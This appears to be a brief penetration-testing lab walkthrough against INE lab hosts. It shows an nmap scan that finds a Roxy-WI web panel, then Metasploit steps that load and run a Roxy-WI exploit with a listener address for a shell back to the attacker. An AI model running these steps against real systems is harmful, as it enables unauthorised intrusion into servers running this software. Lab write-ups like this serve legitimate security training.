`nmap -sC -sV target1.ine.local`
873/tcp open  rsync   (protocol version 31)

80/tcp  open  http     Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Roxy-WI
|_http-server-header: Apache/2.4.52 (Ubuntu)


`msfconsole`
`search roxy-wi`
`use 0`
`set RHOSTS target2.ine.local`
`set LHOST ip`
`run`

`ip addr`
inet 192.253.123.2/24 brd 192.253.123.255 scope global eth1
